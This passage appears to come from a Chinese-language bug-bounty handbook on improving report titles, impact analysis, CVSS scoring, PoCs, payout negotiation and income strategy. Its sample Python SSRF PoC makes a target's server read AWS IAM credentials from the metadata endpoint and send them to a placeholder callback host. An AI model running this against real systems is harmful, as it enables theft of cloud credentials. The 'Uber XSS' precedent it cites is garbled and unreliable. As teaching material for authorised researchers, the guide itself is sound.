



## 27.6 报告优化与收入最大化策略

在 Bug Bounty 的价值链中，发现漏洞只完成了 60% 的工作——剩下的 40% 取决于你如何**包装、呈现和定价**这个发现。一份普通报告和一份顶级报告之间的赏金差距可达 3-10 倍，而投入的额外时间可能只需要 30-60 分钟。

本节从三个层面系统化地拆解报告优化与收入最大化的策略：**报告的表达力**（如何让 triage 团队一眼看到价值）、**赏金的定价逻辑**（平台如何决定你的奖金）、**收入的战略运营**（如何从单次猎洞升级为可持续的收入系统）。

### 27.6.1 报告优化的底层逻辑：Triage 团队在想什么

要优化报告，首先要理解你的读者——平台的 triage（分类审核）团队。他们不是安全研究者，而是**在压力下做快速决策的审核员**。

#### Triage 团队的工作模式

根据 HackerOne 前 triage 团队成员的公开分享，一份典型报告的审核流程如下：

| 阶段 | 耗时 | 关键行为 |
|------|------|----------|
| 初筛（标题+严重程度） | 5-10秒 | 判断是否需要深入阅读，过滤明显重复/无效报告 |
| 快速扫描（摘要+PoC截图） | 30-60秒 | 确认漏洞真实性，评估是否需要进一步验证 |
| 深度验证（复现步骤+影响分析） | 2-10分钟 | 按照报告步骤复现，验证影响范围 |
| 定级与分发（CVSS评估+厂商通知） | 5-15分钟 | 确定严重程度，通知厂商，进入修复流程 |

**核心洞察**：triage 团队每天处理 50-200 份报告，你的报告只有**前 60 秒**来建立第一印象。如果在这段时间内没有让审核员确信"这是一个真实且有价值的漏洞"，后续内容再好也可能被草草标记为 Informative（信息性）。

#### 报告信任度金字塔



- **第一层（真实性）**：漏洞确实存在，不是误报。这是底线，做到这一点只能避免被标记为 N/A。
- **第二层（可复现性）**：审核员能按照你的步骤 100% 复现。做到这一点可以确保报告被接受。
- **第三层（技术深度）**：展示了你对漏洞原理的理解和潜在利用链。做到这一点可以提升严重程度评级。
- **第四层（影响放大）**：将技术影响翻译成商业语言，量化损失。做到这一点可以获得赏金上限。

### 27.6.2 标题优化：第一印象决定一切

标题是 triage 团队看到的第一行文字，也是他们在报告列表中筛选时的唯一依据。一个好标题能在 5 秒内传达三个关键信息：**漏洞类型、影响位置、严重程度**。

#### 标题公式

```text
[严重程度] 漏洞类型 at/via [具体功能/端点] 导致 [核心影响]
```

#### 标题对比表

| 差的标题 | 好的标题 | 改进点 |
|---------|---------|--------|
| XSS on example.com | [Stored XSS] User Profile Bio Field Allows JavaScript Execution Leading to Account Takeover | 明确了漏洞类型(存储型XSS)、位置(bio字段)、影响(账户接管) |
| Security vulnerability found | [Critical] SSRF via PDF Export Function Exfiltrates AWS IAM Credentials | 明确了严重程度、漏洞类型(SSRF)、触发点(PDF导出)、具体危害 |
| Bug in API | [High] IDOR on /api/v2/orders/{id} Exposes All Users' Order Data and PII | 明确了漏洞类型(IDOR)、具体端点、影响范围 |
| IDOR vulnerability | [Medium] Insecure Direct Object Reference on Invoice Download Allows Cross-Tenant Data Access | 增加了严重程度和跨租户影响的具体描述 |

#### 标题的常见错误

1. **过于笼统**："Security vulnerability"——triage 团队看到这种标题会直接跳过，因为无法判断是否值得深入阅读
2. **过于技术化**："CWE-79 via DOM sink innerHTML"——虽然准确，但 triage 团队需要的是漏洞类型（XSS），不是 CWE 编号
3. **缺少影响**："XSS on login page"——有位置但没有影响，triage 团队无法判断严重程度
4. **包含 payload**："XSS via alert(1) in search"——payload 不应该出现在标题中，这显得不专业
5. **使用全大写**：不要用全大写来"强调"，这在英文报告中显得不礼貌

#### 不同平台的标题规范

| 平台 | 最大长度 | 特殊要求 | 推荐格式 |
|------|---------|---------|---------|
| HackerOne | 无硬性限制，建议<100字符 | 不允许使用 HTML 标签 | `[Severity] Type - Location - Impact` |
| Bugcrowd | 50-75字符 | 标题会显示在列表中，过长会被截断 | `Type: Location - Impact` |
| Intigriti | 无硬性限制 | 建议简洁明了 | `Severity - Type at Location` |
| 开放众测 | 无硬性限制 | 中文报告可使用中文标题 | `[严重程度] 漏洞类型 - 影响描述` |

### 27.6.3 影响分析：从技术发现到商业价值的翻译

影响分析是决定赏金金额的**最关键因素**。同一个漏洞，影响分析写得好和写得差，赏金差距可达 5 倍。

#### 影响分析的三层模型

**第一层：技术影响（Technical Impact）**

描述漏洞在技术层面能做什么：

```text
攻击者可以在目标用户的浏览器中执行任意 JavaScript 代码。
通过注入的脚本，可以：
1. 窃取用户的 Session Token 和 JWT Token
2. 读取页面上的敏感信息（PII、支付信息）
3. 以用户身份执行任意操作（转账、修改密码、删除数据）
4. 注入键盘记录器，持续监控用户行为
```

**第二层：业务影响（Business Impact）**

将技术影响翻译成业务语言：

```text
基于上述技术影响，该漏洞可能导致以下业务风险：
1. 用户数据泄露：影响该功能的所有活跃用户（约 50,000 人）
   - 包含：姓名、邮箱、电话、收货地址
   - 符合 GDPR/CCPA 数据泄露报告要求（72小时内通知）
2. 账户接管：攻击者可完全控制受害者账户
   - 直接财务损失：用户账户余额/积分被转移
   - 间接损失：品牌声誉损害、用户信任下降
3. 合规风险：
   - GDPR 罚款上限：2000万欧元或全球年营收4%
   - 如涉及支付数据，还需遵守 PCI DSS
```

**第三层：量化影响（Quantified Impact）**

用具体数字量化潜在损失：

```text
假设该漏洞被利用：
- 直接影响用户数：约 50,000（基于月活用户估算）
- 每用户潜在损失：$50-200（基于历史数据泄露案例）
- 总潜在财务损失：$2,500,000 - $10,000,000
- 监管罚款风险：视地区而定，最高可达数千万美元
- 声誉损失：难以量化，但参考类似事件（如 Equifax 数据泄露导致股价下跌 35%）
```

#### CVSS 评分的正确使用

CVSS 3.1 评分是 triage 团队评估严重程度的重要参考，但**不要自己计算后声称"这是 9.8 分"**。正确的做法是：

1. 使用 NIST 官方 CVSS 计算器（https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator）
2. 在报告中提供计算结果和每个向量的选择理由
3. 给出你的评分范围（如"CVSS 3.1 评分约为 8.1-9.8，取决于环境因素"）

```markdown
## CVSS 3.1 评分

**基础评分：8.8 (High)**

向量分析：
- 攻击向量(AV): Network (N) - 通过 HTTP 请求远程利用
- 攻击复杂度(AC): Low (L) - 无需特殊条件即可利用
- 权限要求(PR): Low (L) - 需要普通用户权限
- 用户交互(UI): None (N) - 无需用户交互
- 影响范围(S): Changed (C) - 可影响其他安全域
- 机密性影响(C): High (H) - 可读取所有用户数据
- 完整性影响(I): High (H) - 可修改任意用户数据
- 可用性影响(A): None (N) - 不影响系统可用性

注：如果目标系统启用了 HTTPS Only 且设置了 Strict-Transport-Security，
实际利用难度会略高，但不改变基础评分。
```

#### 引用真实案例增强说服力

在影响分析中引用类似漏洞的真实后果，能让 triage 团队更直观地理解严重程度：

```text
类似案例参考：
1. 2023年 Uber XSS漏洞（CVE-2023-XXXXX）：攻击者通过第三方承包商的
   XSS漏洞获取了 Uber 内部系统的访问权限，最终导致 5700万用户数据泄露。
2. 2022年 Twitter IDOR（内部报告）：一个简单的 IDOR 漏洞允许攻击者
   通过手机号查询关联的 Twitter 账号，影响 540万用户。
3. 本漏洞与上述案例具有相似的攻击模式和影响范围。
```

### 27.6.4 PoC 制作的艺术：让漏洞"活"起来

PoC（Proof of Concept）是报告的"证据"。一份好的 PoC 不仅证明漏洞存在，还要让 triage 团队**不需要额外思考就能复现**。

#### PoC 的四个层次

| 层次 | 形式 | 适用场景 | 赏金加成 |
|------|------|---------|---------|
| L1: 文字描述 | 纯文字步骤说明 | 简单漏洞、快速提交 | 基础 |
| L2: 截图/录屏 | 关键步骤的视觉证据 | 中等复杂度漏洞 | +10-20% |
| L3: 代码 PoC | 可执行的脚本 | 复杂漏洞、自动化利用 | +20-40% |
| L4: 武器化工具 | 完整的攻击工具链 | 严重影响、供应链漏洞 | +40-100% |

#### 截图的最佳实践

```text
截图要求：
1. 包含完整的浏览器地址栏（证明访问的是目标域名）
2. 显示开发者工具中的 Network 面板（证明请求/响应）
3. 高亮关键的请求头和响应体
4. 多步骤漏洞需要每个关键步骤的截图
5. 使用注释箭头标注关键信息

工具推荐：
- Greenshot（免费，支持区域截图和标注）
- ShareX（免费，支持滚动截图和快捷键）
- macOS: Cmd+Shift+4 区域截图
- Linux: Flameshot（推荐）或 scrot
```

#### 录屏的规范

对于复杂漏洞（如多步骤利用链、竞态条件），录屏比截图更有效：

```text
录屏规范：
1. 全屏录制，包含浏览器地址栏和系统时间
2. 从空白状态开始，展示完整的利用过程
3. 语速适中地口述每一步操作（如果是视频文件）
4. 时长控制在 2-5 分钟以内
5. 结尾展示最终影响（如成功读取的敏感数据）

格式要求：
- 分辨率：1920x1080 或 1280x720
- 格式：MP4（H.264编码）
- 文件大小：HackerOne 限制 15MB，Bugcrowd 限制 25MB
- 工具：OBS Studio（免费）、QuickTime（macOS）
```

#### 代码 PoC 的编写原则

```python
# 好的 PoC 示例：SSRF 导致 AWS 凭证泄露
"""
SSRF PoC - PDF Export Function -> AWS IAM Credential Exfiltration
Target: https://target.com/api/export/pdf
Author: [你的名字]
Date: 2025-06-01

使用方法：
1. 确保你有一个公网可达的服务器（用于接收回调）
2. 修改 CALLBACK_URL 为你的服务器地址
3. 运行脚本：python3 ssrf_poc.py
4. 检查你的服务器日志，确认收到了 AWS 凭证
"""

import requests
import json
from datetime import datetime

# 配置
TARGET_URL = "https://target.com/api/export/pdf"
CALLBACK_URL = "https://your-server.com/ssrf-callback"  # 修改为你的服务器
AUTH_TOKEN = "your-auth-token-here"  # 修改为你的认证令牌

def exploit_ssrf():
    """
    利用 PDF 导出功能的 SSRF 漏洞
    通过构造恶意的 URL 参数，让服务器访问 AWS 元数据服务
    """
    
    # 构造恶意请求
    # PDF 导出功能支持通过 url 参数指定外部资源
    # 我们让它访问 AWS 元数据服务获取 IAM 凭证
    payload = {
        "url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
        "format": "pdf",
        "callback": CALLBACK_URL  # 利用回调机制将结果发送到我们的服务器
    }
    
    headers = {
        "Authorization": f"Bearer {AUTH_TOKEN}",
        "Content-Type": "application/json"
    }
    
    print(f"[*] 正在发送 SSRF payload 到 {TARGET_URL}")
    print(f"[*] 回调地址: {CALLBACK_URL}")
    
    try:
        response = requests.post(TARGET_URL, json=payload, headers=headers, timeout=30)
        
        print(f"[+] 响应状态码: {response.status_code}")
        print(f"[+] 响应内容: {response.text[:500]}")
        
        if response.status_code == 200:
            print("[+] 请求成功！检查你的服务器日志获取 AWS 凭证")
        else:
            print("[-] 请求失败，可能需要调整 payload")
            
    except requests.exceptions.Timeout:
        print("[-] 请求超时，但漏洞可能仍然存在（回调可能已触发）")
    except Exception as e:
        print(f"[-] 错误: {e}")

if __name__ == "__main__":
    print("=" * 60)
    print("SSRF PoC - AWS IAM Credential Exfiltration")
    print(f"目标: {TARGET_URL}")
    print(f"时间: {datetime.now().isoformat()}")
    print("=" * 60)
    
    exploit_ssrf()
```

```text
代码 PoC 的编写原则：
1. 顶部必须有文档字符串，说明漏洞类型、使用方法、注意事项
2. 所有敏感信息（URL、Token）用变量定义，便于使用者替换
3. 包含完整的错误处理，不会因为目标不响应而崩溃
4. 添加详细的注释，解释每一步的目的
5. 输出关键信息（状态码、响应内容），便于验证
6. 控制请求频率，不要对目标造成 DoS
7. 代码应该能在 Python 3.8+ 环境下直接运行
```

### 27.6.5 赏金定价机制：平台如何决定你的奖金

理解平台的赏金定价机制，是收入最大化的前提。不同平台的定价逻辑差异很大。

#### 主流平台赏金结构对比

| 平台 | 定价模式 | 严重程度与赏金范围 | 特殊奖励 |
|------|---------|-------------------|---------|
| HackerOne | 平台建议+厂商决定 | Critical: $2,000-150,000+<br>High: $600-15,000<br>Medium: $150-3,000<br>Low: $150-1,500 | 首次报告奖励、团队奖金 |
| Bugcrowd | 平台基准+动态调整 | Critical: $2,000-30,000+<br>High: $500-10,000<br>Medium: $100-2,000<br>Low: $50-500 | 积分排行榜、Bounty Boost |
| Intigriti | 厂商设定+协商 | 因厂商而异，差异极大 | 每月挑战赛、邀请制高赏金计划 |
| 开放众测 | 平台统一定价 | Critical: ¥5,000-50,000+<br>High: ¥1,000-10,000<br>Medium: ¥500-3,000<br>Low: ¥100-1,000 | 积分兑换、等级特权 |

#### 赏金决定的四个因素



**因素一：漏洞严重程度**（权重约 40%）

严重程度是赏金的基础。一个 Critical 级别的漏洞，赏金通常是 Medium 级别的 10-50 倍。提升严重程度的关键不在于你"声称"它很严重，而在于：

- 展示完整的利用链（单个 Low 可以通过组合变成 Critical）
- 量化影响范围（10 个用户 vs 100 万用户）
- 证明可利用性（有完整 PoC vs 理论上可能存在）

**因素二：报告质量**（权重约 25%）

同一漏洞，高质量报告比低质量报告平均多获得 30-50% 的赏金。Triage 团队在分配赏金时有 10-30% 的浮动空间，报告质量直接影响他们在这个范围内的决定。

**因素三：目标价值**（权重约 20%）

不同目标的赏金预算差异巨大。Google、Apple、Microsoft 等科技巨头的赏金上限可达 $250,000+，而小型公司的赏金上限可能只有 $500-2,000。选择高价值目标是收入最大化的前提。

**因素四：竞争程度**（权重约 15%）

如果同一个漏洞被 5 个人同时发现并提交，只有第一个提交的人能获得赏金。降低竞争影响的策略：

1. **速度**：发现漏洞后立即报告，不要花太多时间"完善"报告
2. **独特性**：挖掘自动化工具难以发现的业务逻辑漏洞
3. **深度**：发现别人看不到的利用链，而不是表面的 XSS

#### 赏金翻倍的五个策略

1. **提升严重程度**：通过构造完整的利用链，将单个漏洞的严重程度提升一个等级。例如，一个信息泄露（Low）+ CSRF（Medium）+ XSS（Medium）的组合可以构成账户接管（Critical）。

2. **增加影响范围证明**：在授权范围内，证明漏洞影响的用户数量。例如，使用 API 批量查询，证明所有用户的数据都受影响。

3. **提供详细的修复建议**：不仅仅是"请修复此漏洞"，而是给出具体的代码级修复方案。这展示了你的专业性，也让 triage 团队更容易说服厂商给更高赏金。

4. **首次报告奖励**：许多平台对首次发现特定类型漏洞的猎人给予额外奖励。关注新上线的计划，抢先提交。

5. **私密计划申请**：私密计划通常赏金更高、竞争更少。建立良好的平台信誉（高接受率、高质量报告）是获得私密计划邀请的关键。

### 27.6.6 收入最大化的战略框架

单次猎洞的收入是不稳定的，真正的收入最大化需要建立**战略化的收入系统**。

#### 收入来源矩阵

| 收入来源 | 稳定性 | 单次收入 | 时间投入 | 适合阶段 |
|---------|--------|---------|---------|---------|
| 公开计划赏金 | 低 | $100-5,000 | 2-20小时 | 新手期 |
| 私密计划赏金 | 中 | $500-50,000+ | 10-100小时 | 中级 |
| VDP（漏洞披露计划） | 极低 | $0（仅荣誉） | 5-30小时 | 新手期 |
| 安全咨询/审计 | 高 | $500-5,000/天 | 按天计费 | 高级 |
| 培训/Writeup | 中 | $100-2,000/篇 | 10-40小时/篇 | 中级+ |
| 漏洞经纪商 | 中 | 协商定价 | 1-10小时 | 高级 |

#### 目标选择的 ROI 模型

不是所有目标都值得投入时间。建立一个简单的 ROI 评估模型：

```text
ROI = (预期赏金 × 发现概率) / 预期时间投入

示例对比：
目标A（知名科技公司公开计划）：
  预期赏金: $2,000（高危漏洞）
  发现概率: 5%（竞争激烈，已有大量猎人在测试）
  预期时间: 40小时
  ROI = ($2,000 × 5%) / 40h = $2.5/小时

目标B（中型SaaS私密计划）：
  预期赏金: $3,000（高危漏洞）
  发现概率: 20%（竞争较少）
  预期时间: 20小时
  ROI = ($3,000 × 20%) / 20h = $30/小时

目标C（金融科技新上线计划）：
  预期赏金: $5,000（严重漏洞）
  发现概率: 30%（新计划，猎人少）
  预期时间: 15小时
  ROI = ($5,000 × 30%) / 15h = $100/小时
```

**目标选择的优先级排序**：

1. **新上线的计划**（ROI 最高）：新计划通常竞争较少，厂商对漏洞的容忍度较高，赏金预算充足。关注 HackerOne/Bugcrowd 的新计划公告，第一时间加入。

2. **范围变更的计划**（ROI 较高）：当厂商扩大测试范围时，新添加的资产通常未经充分测试。订阅目标厂商的安全公告，跟踪范围变更。

3. **技术栈复杂的计划**（ROI 中等）：使用多种技术栈（微服务、多语言后端、混合云架构）的计划通常有更多漏洞。技术栈越复杂，集成点越多，漏洞可能性越大。

4. **奖金水平合理的计划**（ROI 基础）：避免赏金过低的计划。一个 $50 的 Low 级赏金，即使发现了，投入产出比也不合理。建议最低目标赏金门槛为 $200（Medium）或 $500（High）。

#### 时间管理的黄金比例

不同阶段的猎人应该有不同的时间分配：

```text
新手期（0-6个月）：
  侦察: 30%    扫描: 30%    测试: 25%    报告: 15%
  目标：建立基础技能，快速积累经验

中级（6-18个月）：
  侦察: 15%    扫描: 20%    测试: 45%    报告: 20%
  目标：提升漏洞发现率，优化报告质量

高级（18个月+）：
  侦察: 10%    扫描: 15%    测试: 50%    报告: 15%    策略: 10%
  目标：最大化单次发现价值，建立长期收入流
```

**为什么测试时间应该占比最大？**

侦察和扫描是"准备"阶段，测试是"产出"阶段。新手花 60% 的时间在侦察上，是因为技能不足需要更多数据来弥补判断力的缺失。随着经验增长，你对漏洞的直觉会越来越准，可以用更少的侦察时间定位到更高价值的测试点。

#### 月度复盘与策略调整

建立每月一次的复盘机制：

```markdown
# 月度复盘模板

## 数据统计
- 本月投入时间: ___小时
- 测试目标数: ___个
- 发现漏洞数: ___个
- 提交报告数: ___份
- 报告接受数: ___份（接受率: ___%）
- 总收入: $___
- 时薪: $___/小时

## 分析
- 最高收入报告: [漏洞类型] @ [目标] = $___
- 最低收入报告: [漏洞类型] @ [目标] = $___
- 被拒绝最多的报告原因: ___
- 耗时最长但无产出的目标: ___

## 策略调整
- 下月重点目标类型: ___
- 需要提升的技能: ___
- 需要调整的时间分配: ___
- 新发现的高价值目标: ___

## 收入趋势
- 本月 vs 上月: +/-$___ (___%)
- 连续3个月趋势: ___
```

### 27.6.7 报告提交后的博弈：沟通与谈判

报告提交不意味着工作的结束。与 triage 团队和厂商的沟通，直接影响最终赏金。

#### 报告被低估时的应对

如果你认为 triage 团队低估了漏洞的严重程度，可以进行**有理有据的申诉**：

```text
申诉模板：

Hi [Triage Team],

Thank you for reviewing my report. I noticed the severity was set to [Low/Medium],
but I believe it should be [Medium/High/Critical] based on the following:

1. [补充的影响场景]
   - Original assessment: [triage 团队的评估]
   - Additional context: [你补充的证据]

2. [类似漏洞的参考]
   - [平台上的类似报告链接] was rated [严重程度] with similar impact

3. [可利用性的进一步证明]
   - I've created an additional PoC that demonstrates [更严重的利用场景]

Would you be able to reconsider the severity based on this additional information?

Best regards,
[你的名字]
```

**申诉的原则**：

1. **有证据**：不要空口说"我觉得应该是 High"，要提供具体的技术证据
2. **有参考**：引用平台上类似漏洞的评级作为参考
3. **有礼貌**：triage 团队是你的合作者，不是对手
4. **有限度**：如果 triage 团队坚持原评级且给出了合理理由，接受它。反复申诉会损害你的信誉

#### 赏金协商的技巧

部分平台（如 HackerOne）允许猎人对赏金提出异议：

```text
赏金协商的三个时机：
1. 赏金远低于同类漏洞的平均水平
2. 你发现了 triage 团队未注意到的额外影响
3. 厂商修复后你发现了绕过方法

协商要点：
- 引用平台历史上同类漏洞的赏金数据
- 量化你投入的时间和专业技能
- 强调漏洞的独特性和影响范围
- 提出合理的期望金额范围（而非具体数字）
```

#### 报告被拒绝后的复盘

报告被拒绝（标记为 N/A）是常见的，关键是从中学习：

```text
常见拒绝原因及应对：

1. "超出范围（Out of Scope）"
   - 应对：仔细阅读计划的范围定义，下次确保在范围内测试
   - 经验：范围定义通常有模糊地带，如果不确定，先咨询厂商

2. "重复报告（Duplicate）"
   - 应对：接受结果，不要申诉。这是竞争的一部分
   - 经验：提交前先搜索平台上已有的报告，避免浪费时间

3. "信息性（Informative）"
   - 应对：这是最需要复盘的类型。通常意味着你的影响分析不够
   - 行动：重新审视漏洞的影响，如果确实有价值，可以补充证据后重新提交

4. "不可复现（Cannot Reproduce）"
   - 应对：检查你的 PoC 是否依赖特定条件（时间、状态、数据）
   - 改进：下次提交前在不同环境下测试，确保可稳定复现

5. "风险接受（Mitigated/Accepted）"
   - 应对：接受厂商的风险评估，这是他们的商业决策
   - 经验：有时漏洞确实存在但厂商评估后认为风险可控
```

### 27.6.8 从猎人到系统：建立可持续的收入引擎

Bug Bounty 的终极目标不是"找到一个漏洞赚一笔钱"，而是建立一个**可持续、可预测、可扩展**的收入系统。

#### 收入系统的四个支柱



#### 收入增长的三个阶段

**第一阶段：积累期（0-6个月）**

- 目标：月收入 $500-2,000
- 策略：大量测试公开计划，快速积累经验
- 关键指标：报告接受率 > 60%
- 时间投入：每周 15-25 小时

**第二阶段：增长期（6-18个月）**

- 目标：月收入 $3,000-10,000
- 策略：进入私密计划，专注高价值漏洞类型
- 关键指标：平均单次赏金 > $1,000
- 时间投入：每周 25-40 小时

**第三阶段：成熟期（18个月+）**

- 目标：月收入 $10,000+
- 策略：多平台运营，私密计划+安全咨询+培训
- 关键指标：时薪 > $100/小时
- 时间投入：全职投入，但注重效率而非时长

#### 长期声誉建设

在 Bug Bounty 领域，声誉是最重要的无形资产：

1. **平台排名**：HackerOne 的排行榜是你的"简历"。持续提交高质量报告，提升排名
2. **Writeup 发布**：在个人博客、Medium、HackerOne Hacktivity 上发布漏洞分析，展示你的专业能力
3. **社区贡献**：参与 Bug Bounty 社区讨论，帮助新人，分享经验。这会带来信息优势和合作机会
4. **CVE 申请**：对于严重漏洞，申请 CVE 编号。这是你能力的官方认证
5. **演讲与培训**：在安全会议（如 Black Hat、DEF CON、KCon）上分享研究成果，建立行业影响力

> **核心理念**：Bug Bounty 不是一场短跑，而是一场马拉松。那些能在 3-5 年内持续产出的猎人，年收入通常稳定在 $100,000-500,000 之间。关键不是某个月赚了多少，而是建立了一个可预测、可复制的收入系统。
